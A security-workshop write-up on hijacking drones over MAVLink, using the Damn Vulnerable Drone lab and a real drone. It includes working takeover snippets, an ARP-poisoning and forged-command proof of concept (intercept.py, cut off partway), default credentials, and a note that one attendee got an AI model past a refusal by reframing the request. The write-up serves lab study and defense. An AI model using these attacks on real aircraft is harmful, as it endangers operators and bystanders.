





DC852 workshop, 11 October 2026, 2–5pm, City University of Hong Kong (P4704). Agenda: OpenWRT intro → MAVLink drone telemetry hijack → live challenge to land a real drone. This write-up combines my notes from the day, what's in the workshop VM, and a follow-up experiment I ran afterwards on Windows.

---

## The opener: OpenWRT as a home security lab

The first session was Alan's, and it was less "intro to routers" than I expected. The pitch: if you're doing security work at home (especially now that AI agents fire off network requests you didn't individually approve), you want something watching the door, and a several-thousand-dollar firewall appliance with a subscription is not the only answer.

His home build, roughly:

- Any router on the OpenWRT hardware compatibility list (check *before* buying: unsupported chipsets mean no SDK and no drivers), flashed with the official stable build rather than the snapshot branch.
- USB 3 stick for swap/external storage, because these boxes have 1 GB RAM and 8–16 MB flash and you *will* fill them.
- Firewall with zoning and port-based segmentation, plus Deep Packet Inspection so you can see what your own lab machines are doing.
- IDS/IPS (Suricata; he recompiles his own from source because the OpenWRT package lags), WireGuard VPN on the router so you never have to remember to turn the client VPN on, and dynamic routing so only AI/foreign traffic goes through the tunnel while local traffic stays fast.
- For the compute side: a Mini PC running ESXi, Intel over AMD if you can choose; some kernel-analysis instructions simply don't exist on AMD's instruction set, and P/E-core scheduling on newer Intel chips needs explicit VM pinning.

The part I keep thinking about is the framing: the router is there both to protect the lab from the internet *and* to protect the internet from the lab — he's had AI-driven tooling "hit the wrong target" concerns enough to put monitoring at the router where he can see every flow leaving the house. A DIY box worth a couple of thousand HKD ends up replacing what would otherwise be a several-thousand-dollar UTM with an annual subscription.

## The simulator: Damn Vulnerable Drone

After the break we moved to the main event. Everyone got the same VirtualBox image (~60 GB, Kali, everything pre-installed) with the Damn Vulnerable Drone (DVD) stack: four containers.

| Container | Role |
|---|---|
| flight-controller | ArduPilot SITL (ArduCopter) |
| companion-computer | Raspberry-Pi-style companion: Flask web UI (:3000), mavlink-routerd, SSH, RTSP camera |
| ground-control-station | GCS container |
| simulator | Gazebo + a Flask "stage manager" (:8000) that drives the scenario |

The whole range in one picture: attacker foothold on the bridge gateway, and the only door into the drone is the companion computer:



The image comes from the Damn-Vulnerable-Drone project; the companion web UI ships hard-coded credentials (`admin` / `cyberdrone`, visible in `companion-computer/interface/app.py`), and the repo even includes `passwords.txt` for the brute-force lab.

### Lab 1 — find the computer in the emulator

Recon from the host, which sits on the docker bridge gateway (10.13.0.1):

- `docker network ls` shows the dedicated `simulator` network, 10.13.0.0/24.
- `nmap -sn 10.13.0.0/24` finds five live hosts; `nmap -sV --top-ports 100` fingerprints each. Cross-checking against `docker inspect` container IPs is faster than pure fingerprinting — nmap tells you *what*, docker tells you *who*.

Result: the flight controller's MAVLink TCP 5760 is bound *inside* its container and closed from the host. The attack surface is the **companion computer** (10.13.0.3): SSH 22, RTSP 554 (live camera stream), Flask web app on 3000.

### Lab 2 — MAVLink mode injection

Log into the companion web UI (default creds), then start telemetry with the TCP server enabled: `POST /telemetry/start-telemetry` with `enable_tcp_server: true, tcp_server_port: 5760`. That opens mavlink-routerd's TCP endpoint on the companion, which bridges to the flight controller over a socat PTY chain.

From there the takeover is honest work, not exploitation, because **MAVLink has no authentication**. With pymavlink:

1. Connect to `tcp:10.13.0.3:5760`.
2. Wait for the flight controller heartbeat (filter `srcSystem == 1`; the same hub carries heartbeats from MAVROS and other clients, and locking onto the wrong one is a classic first-attempt failure).
3. Send a GCS heartbeat so ArduPilot treats you as a ground station.
4. Inject `MAV_CMD_DO_SET_MODE` → LAND/GUIDED/RTL, whatever you like.
5. Read the `COMMAND_ACK`: ACCEPTED.

`inject_mode_change.py` in the VM does exactly this, and the drone confirms the new mode in its next heartbeat while the legitimate operator watches their session lose control.

### Lab 3 — full flight takeover

`hijack_takeover.py` goes further and flies the drone end-to-end: GUIDED → ARM → `MAV_CMD_NAV_TAKEOFF` to 20 m → watch `GLOBAL_POSITION_INT` climb → RTL. That run completed during the workshop: ARM ACCEPTED, climbed 0→13.4 m in 18 s, RTL accepted.

The full conversation, message by message:



A few operational lessons that cost the room some time (all now in `workshop-notes.md` in the VM):

- An upside-down attitude (roll ≈ 177°) was the iris model was flipped in an old Gazebo world, and it presented as an arming failure. Check ATTITUDE before blaming your arming logic.
- Restarting the FC container silently breaks the companion link, because the FC's init.sh recreates the unix socket while the companion's socat keeps the old inode; mavlink-routerd then dies with a misleading "Invalid IP address /dev/ttyUSB0" (a missing pty falls into the UDP parse branch). Fix: restart the socat pty, then restart telemetry.
- `recv_match(type='COMMAND_ACK')` silently discards other message types, so PreArm rejection reasons never show up until you switch to unfiltered `recv_match()`.
- The simulator is stage-driven via the stage manager on 10.13.0.5:8000 (`/stage1`, `/stage2`, `/reset`); restarting containers is not the same as re-triggering the stage.

### The forensics segment

The image also carries a DJI forensics track (`~/Desktop/Drone/uav_forensics`): `dji-firmware-tools` to unwrap signed firmware (`dji_imah_fwsig.py`), brotli + `sdat2img` to turn `system.new.dat.br` into a mountable `system.img`, then Autopsy/`fls` and a read-only loop mount; the mounted image yields things like `hostapd.conf` and `ftp.conf` straight from the flight controller's Android system partition.

The DJI demo that stuck with me: the instructor has eMMC chip-off images from a Mini 3 Pro and another model (a 54 GB artifact floating around the room), and the interesting discovery was that the **FTP credentials inside are the same across models**. Recover a crashed drone, pull `ftp.conf` from its image, then connect over the USB/WiFi link to that FTP service and read the flight logs (the "black box") directly, no vendor tooling needed. Newer log versions (DAT v10+) are encrypted and need DJI's API key (free developer account) to decode; he'd wrapped that in his own web tool and demoed it on logs from a flight days earlier, flight path and all. He noted a 2026 CVE landed in March covering this black-box exposure. On the physical layer, option three: connect via USB (usb0), give yourself an IP on 192.168.40.0/24 and nmap the drone directly.

## The live challenge — where the simulator stops helping

The finale put a real drone on an isolated access point (its own SSID, no internet, a Raspberry Pi companion inside). The setup on the instructor's side: drone flying on Mission Planner over a SiK-style radio link, a dedicated RC transmitter, the Pi companion at 192.168.40.105. The challenge, stated plainly: from *your own machine* on that network, change the drone's flight mode. Set it to STABILIZE, he said; if you see it flip to RTL, you hit it.

Reality bit immediately. Port scans of the Pi showed 22 (SSH) and 111 (rpcbind) and that was basically it. `tcp:192.168.40.x:5760` (the exact endpoint that had worked all afternoon in the simulator) came back **connection refused** on every laptop that tried. About twenty-seven people were probing at once, several of them with AI agents writing the attack script (one model flatly refused: it recognised "drone" and "damage" in the prompt; another needed reframing as a security-research test). Even reaching an AI was its own networking exercise: the challenge WiFi had no internet, so the way to your coding assistant was USB-tethering a phone as a second network card - challenge network on WiFi, AI on the phone. For a long stretch the room had the whole DVD workshop in its head and zero footholds on the real thing.

The reveal, in the instructor's own words near the end: the answer is UDP, not TCP: TCP needs a handshake, and there is no TCP listener. The drone's MAVLink link rides **UDP on the standard ports (14550/14551, sometimes 5762)**, and the companion telemetry API everyone had used in Lab 2 has the toggles for it right there: *enable TCP server* / *enable UDP 14550* and the UdpDestination rows. Whether the drone *serves* UDP (connect in) or only *pushes* to a configured GCS (become that destination) is a checkbox away. Also worth knowing: the Pi-to-flight-controller hop is **serial**, not IP — so once the UDP surface is pointed at you, the network is not in the path at all, and the mode change lands. (Someone did get a mode change through late in the session.) Two parting facts from the same discussion: the MAVLink ports he chose were always the boring standards (14550/14551/5760/5762), so port knowledge still counts; and consumer drones also broadcast **Remote ID** (FCC-style "Zone ID"), which dedicated scanners pick up to find the aircraft in the first place.

The links around the real drone, and why the attendee view looked so empty:



Which leaves the question this write-up really exists for: MAVLink over UDP — what is it, and how do you send the packet when the port isn't visible?

### The wrap-up claims, checked against the protocol

The reveal left two more claims hanging in the room: that with twenty-plus people probing at once, "MAVLink drops most of the packets"; and that an attacker "has to follow the heartbeat instead of spamming the packet". I checked both against the primary sources I could verify directly — the MAVLink reference parser (pymavlink, the implementation every GCS script in this story actually runs) and the ArduPilot source tree inside the flight-controller container. Both claims hold, with one refinement: it is not one drop mechanism, it is three stacked on top of UDP.

- **The parser drops garbage, silently.** A MAVLink receiver is a scanning state machine: it hunts for a magic byte (0xFE/0xFD), validates the length, then the CRC with its dialect-specific CRC_EXTRA. The reference implementation (`pymavlink/dialects/v20/all.py`, `parse_char`) skips non-protocol bytes, increments `total_receive_errors`, and returns `None` — no reply, no error frame, nothing on the wire. Spamming closed ports buys silence while paying for every byte.
- **The pipe drops the overflow.** On the real drone the companion-to-FC hop is a UART — 57,600 baud in the workshop default, the same numbers our `aim.py` payload submits. That is about 5.7 kB/s, roughly 270 minimum-size MAVLink frames per second, shared between the telemetry streaming out and every attendee's commands coming in. Twenty-seven laptops probing at once oversubscribe it by an order of magnitude, and UDP gives no backpressure: the excess vanishes into socket buffers. For scale, our one-client lab measured ~345 packets/s on the drone↔GCS flow alone.
- **Nothing retransmits.** Telemetry frames are fire-and-forget by design; only commands carry an application-layer acknowledgment (COMMAND_ACK), which exists because the protocol's authors expected loss.

"Follow the heartbeat" is equally real, and the flight controller enforces it from both directions. ArduPilot's `FS_GCS_ENABLE` documentation, verbatim from `ArduCopter/Parameters.cpp` in the FC container: "Controls whether failsafe will be invoked (and what action to take) when connection with Ground station is lost for at least 5 seconds." Five quiet seconds and you are no longer the GCS — with the failsafe armed, the drone RTLs or lands on you. And to be treated as a GCS in the first place, a system broadcasts HEARTBEAT at ~1 Hz; a MAVLink link is considered alive exactly as long as heartbeats keep arriving.

Which matches what actually worked on the day. The H2 probe carries a heartbeat as its payload and waits for telemetry; the H3 forge sends ~4 s of heartbeats before `DO_SET_MODE` and collects its ACCEPTED ack. Both followed the heartbeat discipline and sent nothing beyond what the mission needed. The room's scanners, spamming garbage at closed ports, got connection-refused and silence.

References: [MAVLink serialization — packet format, sequence numbers and loss detection](https://mavlink.io/en/guide/serialization.html), [MAVLink heartbeat service](https://mavlink.io/en/services/heartbeat.html), [MAVLink command protocol — ACK and retry](https://mavlink.io/en/services/command.html), [ArduPilot `FS_GCS_ENABLE` parameter](https://ardupilot.org/copter/docs/parameters.html), plus the on-disk sources quoted above (pymavlink `dialects/v20/all.py`; `/ardupilot/ArduCopter/Parameters.cpp` in the flight-controller container).

## MAVLink over UDP: what it is and how an attack would actually work

**Is MAVLink UDP?** MAVLink is a wire *format* (binary frames), deliberately transport-agnostic. In practice you meet it over: UART/serial telemetry radios (SiK 433/915 MHz; "SiK" as in the SiLabs-style chip line, K for kilobit), TCP 5760 (SITL, some companions), UDP 14550/14551 (the classic GCS ports), UDP broadcast, WiFi bridges, and increasingly LTE. The DVD companion runs mavlink-routerd, whose job is to be the meeting point: FC serial on one side, TCP/UDP endpoints on the other. Its launch options (visible in `companion-computer/interface/routes/telemetry.py`) are telling: `-p 0.0.0.0:14550` opens a UDP *server*, and each `UdpDestination` row in the web-UI database becomes `-e IP:PORT`, a UDP *push* target.

**Why "the port isn't visible" in real life:** with UDP there is no SYN to scan for. A drone that only *pushes* datagrams to a configured GCS shows nothing to nmap (UDP port scans are unreliable anyway: no response ≠ closed). And if the link is UDP, a TCP connect to 5760 gets refused, which is exactly what the live challenge looked like from the outside. So the realistic attack shapes are:

- **H1 — Be the destination.** If you can read or set the drone's UDP destination, you win. On DVD that's the companion web UI's telemetry page (protected by `admin`/`cyberdrone` or a brute-forced password): add a UdpDestination pointing at your laptop, restart telemetry, and the drone now streams to you *and accepts your commands*. This is essentially the intended live-challenge path.
- **H2 — The drone runs a UDP server.** When the companion is configured with a UDP *server* (`-p 0.0.0.0:14550`), the port exists; it just answers nobody until spoken to. A plain SYN scan misses it; a UDP probe that sends a MAVLink heartbeat as payload will find it. Connect, send a GCS heartbeat, take over.
- **H3 — Sit on the packet path.** On the drone's WiFi segment (join the AP, whose historical defaults are legendary, or capture from monitor mode): ARP-spoof/DHCP-manipulate so the drone's datagrams traverse you, then inject downstream. UDP is stateless, so nobody renegotiates anything; the FC accepts whichever link last talked to it like a GCS. A 17-hour full UDP scan of the challenge subnet was floated as the brute-force version of this.
- **H4 — Radio layer.** If the drone uses a SiK-style telemetry radio, the "network" is the 433/915 MHz air interface: sniff with an SDR, sync to the MAVLink stream, transmit your own frames. Same format, different PHY; no authentication at any layer unless MAVLink v2 signing is enabled. In the live setup the legitimate GCS *was* on such a radio (Mission Planner), so the ground segment was a target too.
- **H5 — Pivot instead of inject.** When no MAVLink surface exists at all (only 22 and 111 answering), raw injection from outside is impossible, full stop. Pivot through the companion instead: the web UI (3000), SSH, MAVLink2Rest's HTTP API, or the RTSP camera, then inject *from* the companion, where the serial link to the FC always exists. (The instructor's one-liner during the challenge: the Pi and the FC are wired by serial, so anything you get running *on the Pi* doesn't care what the network looks like.)

The decision path, drawn once:



**How do you actually send the packets?** The takeover is ~40 lines of pymavlink regardless of transport; the endpoint string is the only thing that changes:

```python
mav = mavutil.mavlink_connection('udpin:0.0.0.0:14550')  # or 'udp:DRONE_IP:14550'
hb = mav.wait_heartbeat()                                # latch onto the FC
mav.mav.heartbeat_send(MAV_TYPE_GCS, MAV_AUTOPILOT_INVALID, 0, 0, 0)
mav.mav.set_mode_send(1, MAV_MODE_FLAG_CUSTOM_MODE_ENABLED, mode_id)  # GUIDED
master.arducopter_arm()                                  # MAV_CMD_COMPONENT_ARM_DISARM
mav.mav.command_long_send(..., MAV_CMD_NAV_TAKEOFF, ..., alt)
```

Note there is no handshake *at the MAVLink layer*. That is the point the instructor kept returning to. TCP gives you a connection you can scan and block; UDP gives you nothing to scan, and the protocol trusts whichever socket talks to it in format. The only prerequisites are: hear one heartbeat so you know the FC's system ID, speak GCS (system 255, heartbeat), then send commands.

Put that way, the challenge-room mystery solves itself. A saner design separates discovery from authorization; MAVLink has collapsed the two into one fact. Knowing the endpoint — by being handed it (H1), by speaking first (H2), or by overhearing it, since the drone announces its source port in every datagram it sends (H3) — is the entire access check. The port being undiscoverable and the link being takeover-able are the same property of the protocol, not a coincidence.

I verified this end-to-end on Windows: ArduPilot SITL (the same binary from the workshop VM's flight-controller container) running in a local container, pushing its stream over UDP through a 25-line stand-in for mavlink-routerd — and from the host, `udp_takeover_windows.py` latched onto the heartbeat, injected GUIDED, armed, took the drone to 15 m and sent it home with RTL, receiving ACCEPTED at every step. Output is in `D:\Drone\Drone\uav_udp_lab\demo_output.txt`.

The uncomfortable takeaway stands no matter which hypothesis you pick: **the protocol trusts any speaker that knows the format.** Encryption and authentication exist in MAVLink v2 (message signing) but are opt-in and rarely enabled; the defenses that actually bite are keeping the MAVLink link off untrusted networks, companion-computer hardening (the DVD web UI's hard-coded credentials are the realistic entry point), geo-fencing/RTL failsafes that survive a mode injection, and monitoring for duplicate GCS heartbeats on the same link.

## H3, run for real: sitting on the packet path

The decision tree above left H3 as a sketch: get on-path, capture, inject. I wanted it run end to end, so I built `intercept.py` and staged the whole thing in the workshop VM on 18 October. The cast:

- **operator** (`gcs_operator.py`): a container on the drone's own network, the stand-in for the instructor's Mission Planner. It listens on `udpin:0.0.0.0:14550` and flies a normal mission — GUIDED, arm, takeoff to 15 m, hold.
- **drone**: the DVD companion (10.13.0.3), aimed at the operator with the H1 move from Run B — log into the web UI with `admin`/`cyberdrone`, add a `UdpDestination` pointing at the operator, restart telemetry. The drone now *pushes* its whole MAVLink stream, command channel included, to the operator. Nothing about the drone is scannable from outside.
- **attacker** (`intercept.py`): the VM host itself, which sits on the docker bridge as 10.13.0.1. This is the attendee-laptop-on-the-same-WiFi position: same L2, no credentials, no open port, no web UI.

The attacker works in five phases, and the whole run is on tape (`intercept_poc/intercept_run.log`, timestamps 12:26–12:29):



**Phase 1, tap.** A promiscuous `AF_PACKET` socket on the bridge reads the drone→operator flow with the attacker touching nothing. In fifteen seconds of idle listening it saw 5,171 packets. The "invisible" UDP endpoint names itself in every datagram: the drone's mavlink-router was pushing from port 60439, so the attacker learned the exact port to talk to without scanning anything. This is the answer to the challenge-room mystery — the port is hidden from everyone off the path and printed in plain sight for anyone on it.

**Phase 2, poison.** Bidirectional gratuitous ARP tells the drone "the GCS is at my MAC" and the GCS "the drone is at my MAC". IP forwarding stays on, so the link keeps working and nobody sees a glitch. Both ARP caches now point at the attacker (MAC `32:b7:aa:f2:dc:a7` in the run).

**Phase 3, inject.** The attacker waits until the operator has climbed past 6 m, then sends MAVLink frames forged with the *operator's own* source address and port (`10.13.0.6:14550 → 10.13.0.3:60439`): a GCS heartbeat, then `DO_SET_MODE(RTL)`. There is nothing to distinguish the forged packets from the operator's real ones — same address, same port, same message format, no signature. The flight controller answered `COMMAND_ACK result=0 (ACCEPTED)` at 12:28:56 and the drone's next heartbeat read RTL.

**Phase 4, lockout.** One iptables rule on the forwarding path drops GCS→drone while drone→GCS keeps flowing. The operator sent GUIDED retries that arrived at the attacker and died there; the tap printed each one as `DROPPED: SET_MODE custom_mode=4` (16 of them by the end), and the operator's own log shows `retrying GUIDED... ack: None`. Meanwhile the drone's telemetry kept streaming to the operator, so they watched the whole descent: their display read 13.2 m, then 2.9 m, then 0.0 m, with the mode field lagging behind reality, and only after the drone had landed did their log catch up: `!! MODE IS RTL AT 0.0 m - I DID NOT SEND THAT !!`. Losing control quietly, with the instruments still green, is worse than losing the link.

**Phase 5, restore.** Drop rule removed, true MACs re-announced so both ARP caches converge back, sysctls returned. The operator's GUIDED finally landed again. A lab should leave the network as it found it.

One more finding from the operator's side: STATUSTEXT does not route down the UDP push link. When arming failed during staging, the reason ("Arm: Leaning") was visible on a direct TCP connection to the flight controller but never reached the operator over the drone's own push stream — the operator just gets result 4 with no explanation. A real GCS operator on this link is blind in both directions that matter: they can't see why commands fail, and they can't tell their stream is being read.

The PoC lives in `D:\zcode\DC852\intercept_poc\` (`intercept.py`, `gcs_operator.py`, `aim.py`, `run_poc.sh`, `proof_display.sh`, full logs, screenshots). Re-run it with the stack up and `sudo ./run_poc.sh` inside the VM. Getting it to that point cost an afternoon of honest failures, the short version of which:

- Don't name a Python file `operator.py`. It shadows the stdlib `operator` module and breaks `import collections` for every process with that directory on its path. My operator container and the aim helper both died to this before anything drone-related even ran.
- An `AF_PACKET` socket needs `PACKET_MR_PROMISC` (and Python 3.14 removed the `SOL_PACKET` constant, so the values are hardcoded now). Without promiscuous mode you only see frames addressed to you, and the drone→GCS flow passes the host by entirely.
- pymavlink's default "all" dialect types `SET_MODE.custom_mode` as an enum, which blows up manual frame packing with a `struct.error`. Force `MAVLINK_DIALECT=ardupilotmega` before importing, the way every workshop script implicitly does.
- Arming after a stage reset is flaky for reasons the link will not tell you: the Gazebo spawn sometimes leaves the airframe tilted, ArduPilot's "Arm: Leaning" check ignores `ARMING_CHECK=0`, and repeated `/reset` calls degrade the world until the model slowly sinks and takeoff is rejected forever. The workshop posture — freshly booted stack, one `stage1`, then wait — is the only reliable recipe. A rejected takeoff also auto-disarms the drone ~20 s later, so a retry loop has to re-arm, not just re-send takeoff.
- `VBoxManage controlvm screenshotpng` captures a DPMS-blanked framebuffer as a black PNG. XTEST mouse moves do not wake the virtual hardware; `xset dpms force on` inside the guest does.

Defensively, this run sharpens the closing list from the UDP section: on a shared L2, the drone's push stream is public reading and the command channel is forgeable, so the fixes that matter are ARP hardening on the drone's segment (static ARP entries, or 802.11 with isolation so there is no shared L2 at all), MAVLink v2 signing so a forged source fails, and alerting on the operator side when a command gets no ACK while telemetry keeps arriving — that combination is exactly what the lockout looks like from the chair.

## Appendix A — the interception PoC, attached

The exact files from the verified 18 October run (also in `intercept_poc/`, deployed in the VM at `~/intercept_run/`).


### `intercept.py` — the attacker — tap, ARP poison, forged-source inject, lockout, restore

```python
#!/usr/bin/env python3
"""
intercept.py - hypothesis H3: sit on the packet path, no port needed.

The workshop takeover (Lab 2/3) and the H1/H2 runs all start from a known
endpoint: an open TCP port, or a UDP destination you were handed. The live
challenge had neither - the drone only *pushes* UDP to a configured GCS, so
nothing answers a scan. H3 asks: if I am merely on the same L2 as the drone
and its GCS, what do I get?

This script answers it end to end, in five phases:

  1. TAP      - sniff the bridge the drone lives on. The drone->GCS UDP
                stream is fully readable (heartbeats, mode, position) even
                though the drone's port is invisible to any scanner.
  2. POISON   - ARP-redirect drone <-> GCS through us (transparent: IP
                forwarding stays on, so nobody notices a thing).
  3. INJECT   - learn the drone's mavlink-router port from the captured
                packets themselves, then send MAVLink frames forged with
                the *legit GCS's* source address: GCS heartbeat, then
                DO_SET_MODE -> RTL. The flight controller accepts whoever
                speaks the format; the router cannot tell us from the
                operator, because there is nothing to tell us apart.
  4. LOCKOUT  - drop GCS->drone at the forwarding layer. The operator's
                mode-change retries die on our floor while the drone's
                telemetry keeps flowing to them (they watch it fly RTL).
  5. RESTORE  - remove the drop rule, re-announce the true MACs, put the
                sysctls back. Clean up after yourself, even in a lab.

Runs as root on the Kali VM host (or any box that is on the drone's L2 -
in the DVD stack that is the docker bridge, 10.13.0.1).

Usage:
    sudo python3 intercept.py --drone 10.13.0.3 --gcs 10.13.0.9
    sudo python3 intercept.py --drone 10.13.0.3 --gcs 10.13.0.9 \\
        --rtl-after-alt 6 --lockout 25
"""
import argparse
import ipaddress
import os
import socket
import struct
import subprocess
import sys
import threading
import time

# pymavlink's default "all" dialect types SET_MODE.custom_mode as an enum,
# which blows up struct packing when we forge frames by hand. The
# ardupilotmega dialect (what every workshop script uses) packs clean.
os.environ.setdefault("MAVLINK_DIALECT", "ardupilotmega")
from pymavlink import mavutil  # noqa: E402
from scapy.all import ARP, Ether, IP, UDP, Raw, getmacbyip, sendp  # noqa: E402

# ------------------------------------------------------------------ helpers
def log(tag, msg):
    print(f"[{time.strftime('%H:%M:%S')}] [{tag:<7}] {msg}", flush=True)


def sh(cmd):
    return subprocess.run(cmd, shell=True, capture_output=True, text=True)


def iface_for_ip(ip):
    """Which local interface has a subnet containing ip (the docker bridge)."""
    target = ipaddress.ip_address(ip)
    out = sh("ip -o -4 addr show").stdout
    for line in out.splitlines():
        parts = line.split()
        # "68: br-c630bda60edd    inet 10.13.0.1/24 ..." - name is parts[1]
        if len(parts) >= 4 and parts[2] == "inet":
